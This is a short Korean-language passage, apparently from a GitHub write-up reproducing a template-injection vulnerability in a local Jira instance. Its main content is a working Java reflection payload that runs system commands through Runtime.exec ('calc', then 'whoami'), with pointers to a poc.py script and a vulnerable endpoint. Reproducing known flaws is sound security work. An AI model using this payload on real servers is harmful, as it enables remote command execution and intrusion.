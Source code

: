  - 저장

![](images/9.png)
 - 변경 확인



## 취약점 재연

PoC는 CVE-2019-3396과 동일하게 진행
```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime', null).invoke(null, null).exec('calc').toString()
```

원래 취약점에서는 계산기를 띄우지만 Linux는 calc가 없으므로 whoami로 변경
```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime', null).invoke(null, null).exec('whoami').toString()
```
 - PoC를 직접 하려면 `poc.py`를 실행하거나 `http://localhost:8080/secure/ContactAdministrators!default.jspa`에서 입력
